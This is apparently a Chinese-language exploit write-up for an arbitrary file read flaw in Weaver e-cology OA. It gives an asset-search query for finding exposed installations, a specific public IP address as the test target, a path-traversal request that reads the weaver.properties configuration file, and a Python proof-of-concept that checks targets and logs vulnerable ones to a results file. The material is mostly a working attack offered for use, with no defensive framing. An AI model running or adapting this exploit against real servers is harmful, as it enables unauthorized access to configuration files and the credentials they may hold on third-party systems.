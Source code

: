 ## 一、资产搜索

```
app="泛微-OA（e-cology）"
```

## 二、网站测试

```
https://111.164.112.38
```

## 三、验证漏洞

```
/api/portalTsLogin/utils/getE9DevelopAllNameValue2?fileName=portaldev_/../weaver.properties
```

![image-20240914170509359](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914170509359.png)

## 四、POC

```
def poc(target):
    payload = "/api/portalTsLogin/utils/getE9DevelopAllNameValue2?fileName=portaldev_/../weaver.properties"
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            res3 = json.loads(res2.text)
            if res3["data"]["ecology.changestatus"] == "1":
                with open("result.txt",'a',encoding='utf-8') as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                print(f"该网站[+]{target}存在任意文件读取漏洞")
                print(res2.text)
            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞\n")
        else:
            print("访问超时，请手动测试！！！")
    except Exception as e:
        print(e)
```

## 五、测试结果

![image-20240914170703567](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914170703567.png)

